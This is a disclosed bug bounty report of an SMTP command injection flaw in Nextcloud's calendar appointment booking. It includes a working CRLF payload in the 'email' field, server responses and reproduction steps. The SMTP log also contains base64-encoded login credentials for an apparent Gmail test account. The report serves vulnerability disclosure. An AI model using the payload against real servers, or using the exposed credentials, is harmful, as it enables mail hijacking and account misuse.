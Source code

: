 # SMTP Command Injection in Appointment Emails via Newlines

## Report Details
- **Report ID**: 1509216
- **URL**: https://hackerone.com/reports/1509216
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-03-13T12:24:28.455Z
- **Disclosed**: 2022-12-27T17:29:26.072Z

## Reporter
- **Username**: spaceraccoon
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
## Summary:
Users can create appointment calendars for other users to book slots on their calendar. When booking a slot, the following request is made:

```
POST /apps/calendar/appointment/1/book HTTP/2
Host: 192.168.92.132

{"start":1647306900,"end":"1647307200","displayName":"Test User","email":"<BOOKING USER'S EMAIL>","description":"Please accept!\r\n","timeZone":"Asia/Singapore"}
```

Next, a confirmation email with a confirmation link is sent to the user who booked the slot via `/var/www/nextcloud/apps/calendar/lib/Service/Appointments/BookingService.php` using the SMTP connection.

The SMTP connection involves the following messages:

```
EHLO nextcloud40gb
250-smtp.gmail.com at your service, [116.89.6.224]
250-SIZE 35882577
250-8BITMIME
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-CHUNKING
250 SMTPUTF8
STARTTLS
220 2.0.0 Ready to start TLS
EHLO nextcloud40gb
250-smtp.gmail.com at your service, [116.89.6.224]
250-SIZE 35882577
250-8BITMIME
250-AUTH LOGIN PLAIN XOAUTH2 PLAIN-CLIENTTOKEN OAUTHBEARER XOAUTH
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-CHUNKING
250 SMTPUTF8
AUTH LOGIN
334 VXNlcm5hbWU6
aGFja2Vyb25ldGVzdDEyMzRAZ21haWwuY29t
334 UGFzc3dvcmQ6
ZHZob3Z1a3h0aWJrd2JhYg==
235 2.7.0 Accepted
MAIL FROM:<hackeronetest1234@gmail.com>
RCPT TO:<BOOKING USER'S EMAIL>
DATA
250 2.1.0 OK u10-20020a056a00124a00b004f783abfa0esm10187854pfi.28 - gsmtp
250 2.1.5 OK u10-20020a056a00124a00b004f783abfa0esm10187854pfi.28 - gsmtp
354  Go ahead u10-20020a056a00124a00b004f783abfa0esm10187854pfi.28 - gsmtp

.
250 2.0.0 OK  1647162315 u10-20020a056a00124a00b004f783abfa0esm10187854pfi.28 - gsmtp
QUIT
221 2.0.0 closing connection u10-20020a056a00124a00b004f783abfa0esm10187854pfi.28 - gsmtp
```

Unfortunately, as newlines and special characters are not sanitized in the `email` value in the JSON request, a malicious attacker can inject newlines to break out of the `RCPT TO:<BOOKING USER'S EMAIL>` SMTP command and begin injecting arbitrary SMTP commands. Using several properties of the email RFC, an attacker can craft a payload that passes both the PHP validation of the email and the SwiftMail injection. These commands vary depending on the backend email server (Gmail, Outlook, local SMTP server) and thus can have different impacts, such as changing the `MAIL FROM` user, running sensitive commands like `QUEU` to view the current view, and so on. The errors in SMTP are returned in the response, thus making this a non-blind injection.

For example, an attacker can inject a simple `EHLO a` command to view information about the backend server:

```
{"start":1647306900,"end":"1647307200","displayName":"Test User\r\n","email":"\">\r\nEHLO a\r\nRCPT TO:<a@a.com>\"@b.com","description":"Please accept!\r\n","timeZone":"Asia/Singapore"}
```

Which for Gmail would return:

```
{"status":"error","message":"Could not send mail: Expected response code 354 but got code \"250\", with message \"250-smtp.gmail.com at your service, [116.89.6.224]\r\n250-SIZE 35882577\r\n250-8BITMIME\r\n250-AUTH LOGIN PLAIN XOAUTH2 PLAIN-CLIENTTOKEN OAUTHBEARER XOAUTH\r\n250-ENHANCEDSTATUSCODES\r\n250-PIPELINING\r\n250-CHUNKING\r\n250 SMTPUTF8\r\n\"","data":{"type":"OCA\\Calendar\\Exception\\ServiceException","message":"Could not send mail: Expected response code 354 but got code \"250\", with message \"250-smtp.gmail.com at your service, [116.89.6.224]\r\n250-SIZE 35882577\r\n250-8BITMIME\r\n250-AUTH LOGIN PLAIN XOAUTH2 PLAIN-CLIENTTOKEN OAUTHBEARER XOAUTH\r\n250-ENHANCEDSTATUSCODES\r\n250-PIPELINING\r\n250-CHUNKING\r\n250 SMTPUTF8\r\n\"","code":250,
```

This leaks the backend IP addresses, SMTP server data, and so on.

## Steps To Reproduce:

Note: Email sending should be set up in the admin settings.

  1. At https://<NEXTCLOUD IP>/apps/calendar, select the plus sign beside "Appointments" on the left sidebar and create an appointment calendar.
  2. As another user, go to the link to the appointment booking for that calendar.
  3. Fill up a booking and intercept the request. Change the `email` value to `"email":"\">\r\nEHLO a\r\nRCPT TO:<a@a.com>\"@b.com"`. This should inject an `EHLO` SMTP command which returns some debug information about the backend SMTP server.

## Supporting Material/References:
[list any additional material (e.g. screenshots, logs, etc.)]

  * [attachment / reference]

{F1653231}

## Impact

The impact varies based on which commands are supported by the backend SMTP server. However, the main risk here is that the attacker can then hijack an already-authenticated SMTP session and run arbitrary SMTP commands as the email user, such as sending emails to other users, changing the FROM user, and so on.

## Attachments
- nextcloud_injection.png
